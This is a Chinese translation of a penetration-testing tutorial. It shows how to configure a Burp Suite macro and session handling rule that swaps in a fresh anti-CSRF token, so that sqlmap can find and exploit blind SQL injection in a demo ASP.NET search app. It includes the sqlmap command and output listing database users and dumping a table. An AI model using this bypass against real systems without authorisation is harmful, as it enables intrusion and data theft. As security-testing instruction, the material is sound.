

# 【技术分享】使用burp macros和sqlmap绕过csrf防护进行sql注入


                                阅读量   
                                **233070**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[https://www.cyberis.co.uk/burp_macros.html](https://www.cyberis.co.uk/burp_macros.html)

译文仅供参考，具体内容表达以及含义原文为准

[](./img/85593/t01e876e9474824430b.png)

****

翻译：[派大星](http://bobao.360.cn/member/contribute?uid=1009682630)

预估稿费：150RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿


**前言**

有很多工具可以用来对web应用进行自动化测试。其中最有名的应当是sqlmap。Sqlmap让你轻松的通过命令行确认和利用SQL注入漏洞。然而，一些像CSRF、tokens或者简单的的反自动化技术如在一个表单中包含一个隐藏值就能够阻止自动化工具正确的工作。Burp Suite中的Macros是一个绕过这些方法去进行自动化测试的优秀方法，虽然它实现起来有些复杂。

在本文中我们将用一个简单的web程序作为例子，用户可以用这个程序搜索动物的图片。

[](https://p4.ssl.qhimg.com/t01ee88ae9533c42545.png)

这是一个使用SQL Server做后端数据库的ASP.NET程序。它有SQL盲注漏洞。我们可以从下图看到。

[](https://p2.ssl.qhimg.com/t01071af0e405cc2e2f.png)

如果我们看了一眼源代码，就会发现在一个输入表单中有一个隐藏的GUID token。

```
&lt;form method="post" action="./" id="form1"&gt;
    &lt;div&gt;
        &lt;input name="txtQuery" type="text" id="txtQuery" style="width:270px;" /&gt;
        &lt;input type="submit" name="btnSearch" value="Search" id="btnSearch" /&gt;        &lt;input type="hidden" name="token" id="token" value="012aedf8-412a-4418-bd76-cf61f13ec22f" /&gt;
    &lt;/div&gt;
    &lt;/form&gt;
    &lt;span id="lblResultText"&gt;&lt;/span&gt;
    &lt;br /&gt;
    
&lt;/body&gt;
&lt;/html&gt;
```

这个token是每次由服务器端的相应生成的。如果这个发送的token和服务器端的不一致，将会出现一个错误。

[](https://p2.ssl.qhimg.com/t01042079752f207726.png)

所以考虑到这一点，让我们看看在不使用macro去修改请求时使用sqlmap会发生什么。我们使用以下命令。


```
$ sqlmap -u http://10.99.10.20:8080 --method=POST --data= "__VIEWSTATE=ThFsV9HLtQRaOW3ksjD%2F8jPJ%2BK4oYtIZJ9UZjSdVZecr9MFluyVQIMvZTKyg3Q1eCjcahMgDNYnhBeQIA2FCGq1HaWWj8WE3CPXbXZc5j3I%3D&amp;__VIEWSTATEGENERATOR=CA0B0334&amp;__EVENTVALIDATION=3OHOMEoCmtD5YRvASiOGybpufR%2BFQoZetngO2sq5zb9YFl3HtW%2BBzrISbPZE58dZtG6LsC6qns%2BlotceoeBunvTMcKLH8MIyzmxk3PoHuiWpavLOqJGozuk6py0DvKaWvWHDuFZO1QU2dfG5yPZ29nTLapvb3KcAPWAMDBI25FM%3D&amp;txtQuery=cat&amp;btnSearch=Search&amp;token=77d5a318-c2b0-466d-a4ba-b8c5d155c54f" --proxy=http://127.0.0.1:8080 -p txtQuery
```

我们从sqlmap的输出中首先注意到的是一个到错误页面的重定向。

```
[16:42:45] [INFO] testing connection to the target URL
sqlmap got a 302 redirect to 'http://10.99.10.20:8080/error.html?aspxerrorpath=/default.aspx'. Do you want to follow? [Y/n]
```

对sqlmap来说，这个情况看起来并没有什么希望。让我们继续看看会发生什么。

```
[16:45:57] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[16:45:58] [INFO] testing 'Oracle AND time-based blind'
[16:45:58] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[16:45:58] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it with option '--dbms'
```

显然，sqlmap认为这些参数不能注入，然而我们知道可以注入。现在让我们建立一个Burp macro，它将会使用一个新的token替换掉请求中的“token”参数以便于我们使用sqlmap。<br>

Burp Suite中的macro是在Burp中代理的请求之前被发送到服务器端的一系列请求。一旦macro请求被执行，最后一个macro响应中的一系列参数能够被接下来的请求所携带。这就叫做macro。

首先我们要做的就是标记我们想要使用的一系列请求。在这个例子中只有一个请求：一个发往服务器的Get请求。然而Macro可以用来执行复杂的操作。比如登陆到一个应用然后取出cookies。在Burp Suite中点击“Project options”标签然后点击其中的“Sessions”子标签。

[](https://p5.ssl.qhimg.com/t0199934a91e05bc673.png)

滚动到Macro部分然后点击add。

[](https://p2.ssl.qhimg.com/t0152652d1412d52b8b.png)

两个对话框将会弹出。第一个是macro编辑器，第二个是macro记录器。为了确定我们将要执行的是哪些请求，我们需要“记录”我们想要生成的macro。可以通过两步实现它：现在我们可以执行一些动作作为macro的一部分（例如：浏览登陆页面，发送特定的Get请求等等）。然后在列表中选择它们。或者我们可以直接从代理历史中选择。看来我们只是寻找一个请求，我们已经做了，我们将使用第二个选项。

[](https://p4.ssl.qhimg.com/t0133314a670cf76849.png)

一旦我们选中期望的请求，就点击OK键，然后我们就进入到macro编辑器。

[](https://p2.ssl.qhimg.com/t0131c98293e245a672.png)

从这里开始我们需要对已经被拦截的请求做一些小改动。对于高亮的请求，我们点击“Configure item”。“Configure Macro itme”对话框将会弹出。然后我们点击“Custom parameter location in response”部分的add按钮。

[](https://p3.ssl.qhimg.com/t018b80948429da2bd9.png)

然后我们需要在响应中定位参数。高亮我们想要提取的值然后为参数命名以便于在macro完成的时候它能够被最后的请求带上。

[](https://p0.ssl.qhimg.com/t01bb57a10b5ad87ed5.png)

“Define start and end”部分将被自动填充当我们在响应中高亮需要的值。其他的就按照默认值就可以了。点击OK直到关闭所有对话框。

现在我们生成了自己的macro。但是我们仍然需要实现一个会话処理规则（session handling rule）使macro在需要的时候执行。在Session标签中找到“Session Handling Rules”部分然后点击add按钮。

[](https://p0.ssl.qhimg.com/t018e1ae87b3b5c6e05.png)

当对话框弹出时点击在“Rule Actions”下面的add按钮，在下拉菜单中选择“Run a Macro”。

[](https://p3.ssl.qhimg.com/t01139222054c95c03d.png)

然后“Session Handling Action Editor”就会出现。在这里我们选择自己的macro。

选择“Update only the following parameters”然后将我们的参数添加到这个列表中。如果我们想要基于macro修改cookies，我们也可以将其添加到这里。在这个例子中并没有cookies被设置。

[](https://p5.ssl.qhimg.com/t0120f5c2553766a2ae.png)

点击OK关闭对话框然后点击Session Handling Rule Editor中的“Scope”标签。

[](https://p3.ssl.qhimg.com/t01ac31f50ccb04dc8b.png)

在这里我们将要定义受规则影响的请求的范围。在“Tools Scope”中代理并没有被默认选中（如果没有设置好这会影响到每一个经过Burp的请求）。为了在sqlmap中使用这个规则，我们需要使这个规则在代理中启用。为了限制使用范围我们使用“Use suite scope”选项将其设置为只在测试站点使用。最后，我们限制“Parameter Scope”只影响包含token参数的请求，这是我们唯一要修改的。最后点击OK关闭对话框。

这些就是我们需要为sqlmap设置的所有选项。现在当sqlmap的请求经过Burp代理时，Burp就会先发送一个请求到服务器然后用从中得到的token参数替换sqlmap的post请求中的参数值。

N.B：Burp不会在代理历史中展示被修改的请求。如果你认为macro并未正确的工作。你需要在Session标签Project选项中打开sessin tracer。这个能够用来一步一步的移动每个请求然后你就可以观察请求中的变化了。

一旦macro被启动sqlmap就能够正确的在我们的网站中检测出SQL注入然后利用它。


```
[20:38:09] [INFO] POST parameter 'txtQuery' appears to be 'Microsoft SQL Server/Sybase stacked queries (comment)' injectable
[20:38:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[20:38:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF - comment)'
[20:38:19] [INFO] POST parameter 'txtQuery' appears to be 'Microsoft SQL Server/Sybase time-based blind (IF - comment)' injectable
[20:38:19] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:38:19] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:38:19] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[20:38:19] [INFO] target URL appears to have 1 column in query
```

正如你看到的那样，sqlmap发现了参数可注入而且现在我们可以使用sqlmap提取数据了。


```
[20:41:46] [INFO] fetching database users
[20:41:46] [WARNING] reflective value(s) found and filtering out
[20:41:46] [INFO] the SQL query used returns 2 entries
[20:41:46] [INFO] retrieved: animals
[20:41:47] [INFO] retrieved: sa
database management system users [2]:                                                                                                                                                                             
[*] animals
[*] sa
&lt;…SNIP…&gt;
[20:42:44] [INFO] analyzing table dump for possible password hashes
Database: Animals
Table: AnimalImages
[4 entries]
+----+-----------+-------------+
| ID | imageData | description |
+----+-----------+-------------+
| 1  |  blank    | dog         |
| 2  |  blank    | cat         |
| 3  |  blank    | mouse       |
| 4  |  blank    | musk ox     |
+----+-----------+-------------+
```
